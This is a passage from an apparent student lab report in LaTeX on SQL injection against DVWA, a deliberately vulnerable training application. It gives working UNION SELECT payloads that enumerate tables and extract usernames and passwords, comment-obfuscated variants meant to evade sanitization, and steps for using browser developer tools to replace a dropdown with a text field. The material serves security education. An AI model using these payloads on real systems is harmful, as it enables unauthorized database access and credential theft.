    
\includegraphics[width=1.0\textwidth]{Screenshot3.png}
    \caption{Retrieving column names using UNION SELECT.}
\end{figure}

\textbf{Q5. Can you discover more tables in database used by DVWA?}

\textbf{Answer:}

Yes, by entering:

\begin{lstlisting}
1' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema = database() #
\end{lstlisting}

This query shows all table names in database.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1.0\textwidth]{Screenshot6.png}
    \caption{Discovering more tables in database using UNION SELECT.}
\end{figure}

\subsubsection{Medium Security Level Testing}

After changing DVWA security level to 'medium', we see application's behavior changes. Some SQL injection methods might still work, but dropdown menu limits our ability to inject queries easily.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1.0\textwidth]{Screenshot7.png}
    \caption{Setting DVWA security level to 'Medium'.}
\end{figure}

\textbf{Q6. Which of above SQL Injection attempts still works in ‘medium’ setting?}

\textbf{Answer:}

At medium security level, application uses a dropdown menu for 'User ID', so we can't type in our own input. But if we use browser's developer tools, we can change input field back to a text box and perform SQL injection again. This shows some vulnerabilities can still be exploited with extra effort.

\subsection{Bypassing Medium Security using HTML and JavaScript}

At medium security level in DVWA, application changes input from text fields to dropdown menus. This makes it harder to input SQL injection strings directly. But by using browser's developer tools, we can change HTML and JavaScript to inject SQL code anyway.

\subsubsection{Inspecting and Modifying HTML}

To get around dropdown menu, we can look at HTML code and change it to allow text input. Here are steps:

\begin{enumerate}
    \item Open developer tools in your browser by pressing \texttt{F12} or right-clicking and choosing \texttt{Inspect}.
    \item In \texttt{Elements} tab, find dropdown for \texttt{User ID}. It looks like this:

\begin{lstlisting}[language=HTML]
<select name="id">
    <option value="1">1</option>
    <option value="2">2</option>
</select>
\end{lstlisting}

    \item Right-click on it and choose \texttt{Edit as HTML}. Replace \texttt{<select>} element with a text input field, like this:

\begin{lstlisting}[language=HTML]
<input type="text" name="id" value="">
\end{lstlisting}

    \item Now, \texttt{id} field will let you type in any text, so you can input SQL injection strings.

\end{enumerate}

After changing HTML, you can try  SQL injection worked in low security setting, but specially rewritten to work around the sanitization. For example, you can input:

\begin{lstlisting}
1/**/OR/**/1=1
1/**/UNION/**/SELECT/**/user,/**/password/**/FROM/**/users--
\end{lstlisting}

This is a work around for the dropdown and sanitization security measures. 

\begin{figure}[H]
    \centering
